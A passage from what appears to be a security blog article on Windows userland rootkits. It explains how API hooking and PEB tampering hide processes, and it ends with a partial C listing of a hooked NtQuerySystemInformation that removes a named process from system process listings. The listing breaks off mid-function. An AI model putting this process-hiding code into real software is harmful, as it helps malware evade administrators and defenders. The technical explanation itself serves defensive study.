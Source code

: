 These rootkits often employ API hooking libraries to intercept and modify API calls, granting them control over critical system functions, file operations, network communication, and more. Consequently, understanding API hooking libraries is essential not only for defenders but also for those exploring the realm of userland rootkits in Windows

## **Hiding Processes**

![hiding process mindmap](https://hadess.io/wp-content/uploads/2023/09/image-1024x184.png)

Userland rootkits in Windows employ various tactics to hide processes running on the infected system. One common technique is hooking into system APIs responsible for retrieving process information, such as EnumProcesses or PsLookupProcessByProcessId.

By manipulating these API calls, rootkits can filter out their presence from the list of running processes. As a result, even seasoned administrators may be unaware of the rogue processes executing on the compromised system.

Another method involves modifying the system’s Process Environment Block (PEB) data structure. This alteration allows rootkits to hide processes by tampering with the information presented to user-mode applications, such as Task Manager. The PEB manipulation can present false process names or simply omit them, making it incredibly difficult to identify the malicious process.

Here’s an example of how a userland rootkit hides a specific process:

```
NTSTATUS NTAPI HookedNtQuerySystemInformation(SYSTEM_INFORMATION_CLASS SystemInformationClass, PVOID SystemInformation, ULONG SystemInformationLength, PULONG ReturnLength) {

// call the original function to retrieve the information data

NTSTATUS status = ntQuerySystemInformation(SystemInformationClass, SystemInformation, SystemInformationLength, ReturnLength);

// check if the caller wants to see process information data

if (SystemInformationClass == SystemProcessInformation) {

// if so, parse the output

SYSTEM_PROCESS_INFORMATION * cur = (SYSTEM_PROCESS_INFORMATION *) SystemInformation;

SYSTEM_PROCESS_INFORMATION * prev = NULL;

while (cur) {

// if the current record in the array is pointing to our hidden process...

if (StrStrIW(cur->ImageName.Buffer, HIDE_PROCNAME)) {

// ... and is the first record in the array

if (!prev) {

// skip the first record

if (cur->NextEntryOffset) SystemInformation = (LPBYTE) SystemInformation + cur->NextEntryOffset;

else { 

SystemInformation = NULL;

break;   // exit the loop

}

```